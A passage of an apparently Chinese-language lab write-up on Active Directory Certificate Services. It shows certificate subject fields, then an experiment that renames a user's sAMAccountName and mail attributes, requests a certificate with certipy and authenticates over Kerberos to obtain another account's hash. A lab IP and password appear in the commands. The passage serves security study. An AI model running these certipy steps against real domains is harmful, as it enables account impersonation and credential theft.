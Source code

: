 并且查看证书的属性，可以看到使用者和使用者可选名称属性如下：



```
使用者：

	E = bbbb@xie.com

	CN = hack

	CN = Users

	DC = xie

	DC = com

使用者可选名称

	其他名称:

	     主体名称=hack@xie.com

	RFC822 Name=bbbb@xie.com
```




![](https://img-blog.csdnimg.cn/img_convert/78714c87a9fc854433d3d165980da555.png)



### 实验五



修改hack用户的sAMAccountName属性为cccc，mail属性为bbbb@xie.com，但是不设置userPrincipalName属性。如图所示：



![](https://img-blog.csdnimg.cn/img_convert/65a9f1d1892eacfd7fd844ed1784feab.png)



此时以cccc用户名请求证书，然后进行Kerberos认证，可以看到认证成功。此时获取的还是之前hack用户的hash。



```
certipy req -dc-ip 10.211.55.4 "xie.com/cccc:P@ss1234@CA-Server.xie.com" -ca xie-CA-SERVER-CA -template User -debug

certipy auth -pfx cccc.pfx -dc-ip 10.211.55.4 -debug
```




![](https://img-blog.csdnimg.cn/img_convert/515f7b0b61de9709208eddac3e9ac0e2.png)

